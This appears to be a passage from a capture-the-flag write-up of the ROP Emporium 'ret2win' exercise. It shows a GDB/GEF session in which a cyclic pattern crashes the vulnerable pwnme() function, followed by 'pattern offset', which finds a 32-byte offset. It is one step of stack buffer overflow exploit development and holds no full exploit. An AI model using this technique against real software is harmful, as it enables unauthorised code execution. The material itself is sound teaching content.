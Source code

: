```shell

> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400810 in pwnme ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffe0f0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaag"
$rbx   : 0x0               
$rcx   : 0xfbad2288        
$rdx   : 0x00007fffffffe0f0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaag"
$rsp   : 0x00007fffffffe118  →  "faaaaaaag"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x00007ffff7fac8d0  →  0x0000000000000000
$rdi   : 0x00007fffffffe0f1  →  "aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaag"
$rip   : 0x0000000000400810  →  <pwnme+91> ret 
$r8    : 0x0               
$r9    : 0x00007ffff7fb1500  →  0x00007ffff7fb1500  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x0000000000400650  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe200  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe118│+0x0000: "faaaaaaag"  ← $rsp
0x00007fffffffe120│+0x0008: 0x0000000000400067  →   add al, bh
0x00007fffffffe128│+0x0010: 0x00007ffff7e1309b  →  <__libc_start_main+235> mov edi, eax
0x00007fffffffe130│+0x0018: 0x0000000000000000
0x00007fffffffe138│+0x0020: 0x00007fffffffe208  →  0x00007fffffffe4e4  →  "/root/Documents/ropemporium/ret2win/64ret2win/ret2[...]"
0x00007fffffffe140│+0x0028: 0x0000000100000000
0x00007fffffffe148│+0x0030: 0x0000000000400746  →  <main+0> push rbp
0x00007fffffffe150│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400809 <pwnme+84>       call   0x400620 <fgets@plt>
     0x40080e <pwnme+89>       nop    
     0x40080f <pwnme+90>       leave  
 →   0x400810 <pwnme+91>       ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win", stopped, reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400810 → pwnme()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset 0x6161616161616165 50
[+] Searching '0x6161616161616165'
[+] Found at offset 32 (little-endian search) likely
```